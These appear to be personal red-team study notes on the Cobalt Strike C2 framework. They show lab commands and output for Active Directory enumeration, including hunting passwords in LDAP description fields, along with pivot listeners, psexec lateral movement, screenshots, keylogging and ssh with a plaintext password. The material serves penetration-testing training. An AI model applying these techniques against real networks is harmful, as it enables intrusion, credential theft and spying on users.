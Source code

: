 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  

helpful checklist: https://book.hacktricks.xyz/c2/cobalt-strike


### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`

Good list here: https://github.com/hrtywhy/BOF-CobaltStrike

Outflank C2 Tool Collection

### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server (like setting up a port bind on target).

Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`

### Pivot Listeners

^4b657f

^118d4f
This is another type of P2P listener that (currently only) uses TCP, but it works in the opposite direction to the regular TCP listener (like setting up a reverse shell).

When you spawn a Beacon payload that uses the TCP listener, that Beacon acts as a TCP server and waits for an incoming connection from an existing Beacon (TCP client).

In scenarios such as GPO abuse, you don't know when the target will actually execute your payload and therefore when you need issue the `connect` command. When a Beacon checks in over a Pivot listener, it will appear in the UI immediately without having to manually connect to it.

To start a Pivot Listener on an existing Beacon, right-click it and select **Pivoting > Listener**.

Once started, your selected port will be bound on that machine.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING
```

You can generate payloads for the pivot listener in exactly the same way as other listeners. When executed on a target, you should see the Beacon appear automatically. 

For example:
Go to Attacks, Packages, Windows Executable (S), choose the listener you just set up. Run payload on target.

You can also use 'psexec64'

```
jump psexec64 srv-1 name-of-pivot-listner
```


### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```



### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```


### ssh

Beacon also has a built-in ssh client
```
beacon> ssh 10.10.17.12:22 svc_oracle Passw0rd!
[+] established link to child session: 10.10.17.12

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
